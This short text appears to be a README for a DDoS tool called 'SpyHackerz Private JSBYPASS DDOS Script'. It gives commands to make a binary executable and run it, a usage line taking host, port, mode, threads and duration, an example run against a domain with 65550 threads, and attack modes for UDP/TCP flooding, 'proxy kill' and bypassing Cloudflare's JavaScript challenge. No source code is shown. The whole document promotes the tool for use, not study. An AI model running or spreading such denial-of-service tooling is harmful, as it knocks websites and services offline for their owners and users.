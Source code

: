# SpyHackerz Private JSBYPASS DDOS Script

chmod 777 spy

./spy 

soulmateforever622@cloudshell:~$ ./spy

      Created Lous

   SpyHackerZ.org / com

 Command : ./spy host/domain port mode threads seconds
 Example : ./spy spyhackerz.org 443 3 65550 1000
           Mode List
     1 ~ UDP / TCP - [RANDOM]
     2 ~ PROXY-KILL
     3 ~ JSBYPASS [CF]

